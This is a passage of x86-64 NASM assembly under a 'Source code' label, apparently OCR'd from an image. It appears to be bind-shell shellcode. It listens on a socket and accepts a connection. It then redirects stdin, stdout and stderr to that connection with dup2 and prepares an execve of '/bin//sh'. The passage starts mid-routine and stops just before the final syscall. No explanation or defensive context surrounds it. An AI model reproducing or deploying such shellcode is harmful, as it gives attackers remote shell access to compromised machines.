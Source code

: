 ```nasm
	
	mov rsi, rsp
	xor rdx, rdx
	add rdx, 16
	syscall

	xor rax, rax
	add rax, 50
	xor rsi, rsi
	add rsi, 2
	syscall

	xor rax, rax
	add rax, 43
	sub rsp, 16
	mov rsi, rsp
	mov byte [rsp - 1], 16
	sub rsp, 1
	mov rdx, rsp

	syscall

	mov r9, rax
	
	xor rax, rax
	add rax, 3
	syscall

	mov rdi, r9
	xor rax, rax
	add rax, 33
	xor rsi, rsi
	syscall

	xor rax, rax
	add rax, 33
	xor rsi, rsi
	add rsi, 1
	syscall

	xor rax, rax
	add rax, 33
	xor rsi, rsi
	add rsi, 2
	syscall

	xor rax, rax
	push rax

	mov rbx, 0x68732f2f6e69622f
	push rbx

	mov rdi, rsp

	push rax

	mov rdx, rsp

	push rdi
	
	mov rsi, rsp

	add rax, 59
```